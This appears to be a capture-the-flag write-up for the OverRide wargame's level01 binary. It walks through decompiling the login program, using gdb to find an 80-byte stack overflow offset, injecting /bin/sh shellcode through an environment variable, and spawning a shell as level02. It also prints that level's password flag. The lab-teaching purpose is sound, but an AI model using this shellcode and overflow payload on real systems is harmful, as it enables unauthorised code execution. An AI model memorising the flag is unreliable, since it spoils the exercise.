 After decompiling with hex-rays we have something like this:

_BOOL4 verify_user_name()
{
  puts("verifying username....\n");
  return memcmp(a_user_name, "dat_wil", 7u) != 0;
}

//----- (080484A3) --------------------------------------------------------
_BOOL4 __cdecl verify_user_pass(const void *a1)
{
  return memcmp(a1, "admin", 5u) != 0;
}

//----- (080484D0) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  _BOOL4 v5; // [esp+5Ch] [ebp-Ch]

  memset(s, 0, sizeof(s));
  v5 = 0;
  puts("********* ADMIN LOGIN PROMPT *********");
  printf("Enter Username: ");
  fgets(a_user_name, 256, stdin);
  v5 = verify_user_name();
  if ( v5 )
  {
    puts("nope, incorrect username...\n");
  }
  else
  {
    puts("Enter Password: ");
    fgets(s, 100, stdin);
    v5 = verify_user_pass(s);
    puts("nope, incorrect password...\n");
  }
  return 1;
}

So we can enter in the else statement by entering the correct username (dat_will).
Then we can enter the password and it will be compared with "admin".
We can see that the password is stored in a 64 bytes buffer and that the function verify_user_pass() will compare the first 5 bytes of the buffer with "admin".
We can just overflow the buffer of 64 with a pattern (https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)
and find the offset.


gdb ./level01 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_will
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

So the program segfault, like we expected, we put the address of the segfault in the offset string generator and we have the offset :
Offset = 80

Now we can export our shellcode (That we found in Rainfall), in the environment variable SHELLCODEINJECTION and we can use it to overflow the buffer and jump to our shellcode.

export SHELLCODEINJECTION=$(python -c 'print "\x90"*128 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
level01@OverRide:~$ gdb ./level01 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) x/30s *((char **)environ)
No symbol table is loaded.  Use the "file" command.
(gdb) b main
Breakpoint 1 at 0x80484d5
(gdb) run
Starting program: /home/users/level01/level01 

Now we have to find the address of our shellcode, we can do it with gdb :

Breakpoint 1, 0x080484d5 in main ()
(gdb) x/30s *((char **)environ)
0xffffd83e:	 "TERM=xterm-256color"
0xffffd852:	 "SHELL=/bin/bash"
0xffffd862:	 "SSH_CLIENT=192.168.56.1 49822 4242"
0xffffd885:	 "SSH_TTY=/dev/pts/0"
0xffffd898:	 "USER=level01"
0xffffd8a5:	 "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xffffd96d:	 ":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xffffda35:	 "eb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35"...
0xffffdafd:	 ":*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mk"...
0xffffdbc5:	 "v=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35"...
0xffffdc8d:	 ":*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00"...
0xffffdd55:	 ";36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
0xffffddc6:	 "COLUMNS=134"
0xffffddd2:	 "MAIL=/var/mail/level01"
0xffffdde9:	 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xffffde36:	 "_=/usr/bin/gdb"
0xffffde45:	 "PWD=/home/users/level01"
0xffffde5d:	 "LANG=en_US.UTF-8"
0xffffde6e:	 "LINES=32"
0xffffde77:	 "SHELLCODEINJECTION=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\231Ph//shh/bin\211\343PS\211\341\260\v̀"
0xffffdf23:	 "SHLVL=2"
---Type <return> to continue, or q <return> to quit---
0xffffdf2b:	 "HOME=/home/users/level01"
0xffffdf44:	 "LANGUAGE=en_US:en"
0xffffdf56:	 "LOGNAME=level01"
0xffffdf66:	 "SSH_CONNECTION=192.168.56.1 49822 192.168.56.4 4242"
0xffffdf9a:	 "LESSOPEN=| /usr/bin/lesspipe %s"
0xffffdfba:	 "LESSCLOSE=/usr/bin/lesspipe %s %s"
0xffffdfdc:	 "/home/users/level01/level01"
0xffffdff8:	 ""
0xffffdff9:	 ""


We convert the address of our shellcode in little endian and we put it in the buffer after the 80 bytes of offset.

0xffffde77 in little endian = \x77\xde\xff\xff

And we create our payload : first we enter the username, then the password (our overflow),
after keep the shell open with cat and pipe this to the level01 binary.

((python -c 'print "dat_will"') ; (python -c 'print "A"*80 + "\x77\xde\xff\xff"') ; cat)

level01@OverRide:~$ ((python -c 'print "dat_will"') ; (python -c 'print "A"*80 + "\x77\xde\xff\xff"') ; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv